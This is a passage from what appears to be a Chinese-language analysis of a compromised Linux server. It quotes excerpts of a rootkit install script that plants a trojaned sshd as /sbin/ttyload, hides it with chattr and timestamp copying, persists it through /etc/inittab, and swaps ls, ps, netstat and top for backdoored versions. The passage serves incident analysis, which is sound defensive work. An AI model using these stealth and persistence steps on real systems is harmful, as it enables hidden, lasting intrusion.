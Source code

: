 <pre><ol class="dp-xml"><li class="alt"><span><span>mv&nbsp;$SSHDIR/sshd&nbsp;/sbin/ttyload&nbsp;</span></span></li><li><span>&nbsp;&nbsp;&nbsp;chmod&nbsp;a+xr&nbsp;/sbin/ttyload&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;chmod&nbsp;o-w&nbsp;/sbin/ttyload&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;touch&nbsp;-acmr&nbsp;/bin/ls&nbsp;/sbin/ttyload&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;chattr&nbsp;+isa&nbsp;/sbin/ttyload&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;kill&nbsp;-9&nbsp;`pidof&nbsp;ttyload`&nbsp;<span class="tag">&gt;</span><span>/dev/null&nbsp;2</span><span class="tag">&gt;</span><span>&amp;1&nbsp;</span></span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;....&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;#&nbsp;INITTAB&nbsp;SHUFFLING&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;chattr&nbsp;-isa&nbsp;/etc/inittab&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;cat&nbsp;/etc/inittab&nbsp;|grep&nbsp;-v&nbsp;ttyload|grep&nbsp;-v&nbsp;getty&nbsp;<span class="tag">&gt;</span><span>&nbsp;/tmp/.init1&nbsp;</span></span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;cat&nbsp;/etc/inittab&nbsp;|grep&nbsp;getty&nbsp;<span class="tag">&gt;</span><span>&nbsp;/tmp/.init2&nbsp;</span></span></li><li><span>&nbsp;&nbsp;&nbsp;echo&nbsp;&quot;#&nbsp;Loading&nbsp;standard&nbsp;ttys&quot;&nbsp;<span class="tag">&gt;</span><span class="tag">&gt;</span><span>&nbsp;/tmp/.init1&nbsp;</span></span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;echo&nbsp;&quot;0:2345:once:/usr/sbin/ttyload&quot;&nbsp;<span class="tag">&gt;</span><span class="tag">&gt;</span><span>&nbsp;/tmp/.init1&nbsp;</span></span></li></ol></pre>

<p></p>

<p>它也替换了一些linux的标准命令。</p>

<pre><ol class="dp-xml"><li class="alt"><span><span>#&nbsp;Backdoor&nbsp;ps/top/du/ls/netstat/etc..&nbsp;</span></span></li><li><span>&nbsp;&nbsp;&nbsp;cd&nbsp;$BASEDIR/bin&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;<span class="attribute">BACKUP</span><span>=/usr/lib/libsh/.backup&nbsp;</span></span></li><li><span>&nbsp;&nbsp;&nbsp;mkdir&nbsp;$BACKUP&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;...&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;#&nbsp;ls&nbsp;...&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;chattr&nbsp;-isa&nbsp;/bin/ls&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;cp&nbsp;/bin/ls&nbsp;$BACKUP&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;&nbsp;mv&nbsp;-f&nbsp;ls&nbsp;/bin/ls&nbsp;</span></li><li><span>&nbsp;&nbsp;&nbsp;chattr&nbsp;+isa&nbsp;/bin/ls&nbsp;</span></li></ol></pre>

<p></p>

<p>这样子就可以解释为什么&rdquo;ls&rdquo;命令输出那么奇怪了。</p>

<p>&ldquo;.backup&rdquo;文件夹保存了被替换之前的命令程序。</p>

<pre><ol class="dp-xml"><li class="alt"><span><span>root@server1:/var/.x#&nbsp;ls&nbsp;-l&nbsp;/usr/lib/libsh/.backup/&nbsp;</span></span></li><li><span>&nbsp;&nbsp;total&nbsp;552&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;-rwxr-xr-x&nbsp;&nbsp;&nbsp;1&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;126276&nbsp;Dec&nbsp;24&nbsp;22:58&nbsp;find&nbsp;</span></li><li><span>&nbsp;&nbsp;-rwxr-xr-x&nbsp;&nbsp;&nbsp;1&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;59012&nbsp;Dec&nbsp;24&nbsp;22:58&nbsp;ifconfig&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;-rwxr-xr-x&nbsp;&nbsp;&nbsp;1&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;77832&nbsp;Dec&nbsp;24&nbsp;22:58&nbsp;ls&nbsp;</span></li><li><span>&nbsp;&nbsp;-rwxr-xr-x&nbsp;&nbsp;&nbsp;1&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;30388&nbsp;Dec&nbsp;24&nbsp;22:58&nbsp;md5sum&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;-rwxr-xr-x&nbsp;&nbsp;&nbsp;1&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;99456&nbsp;Dec&nbsp;24&nbsp;22:58&nbsp;netstat&nbsp;</span></li><li><span>&nbsp;&nbsp;-rwxr-xr-x&nbsp;&nbsp;&nbsp;1&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;65492&nbsp;Dec&nbsp;24&nbsp;22:58&nbsp;ps&nbsp;</span></li><li class="alt"><span>&nbsp;&nbsp;-rwxr-xr-x&nbsp;&nbsp;&nbsp;1&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;14016&nbsp;Dec&nbsp;24&nbsp;22:58&nbsp;pstree&nbsp;</span></li><li><span>&nbsp;&nbsp;-rwxr-xr-x&nbsp;&nbsp;&nbsp;1&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;50180&nbsp;Dec&nbsp;24&nbsp;22:58&nbsp;top&nbsp;</span></li></ol></pre>
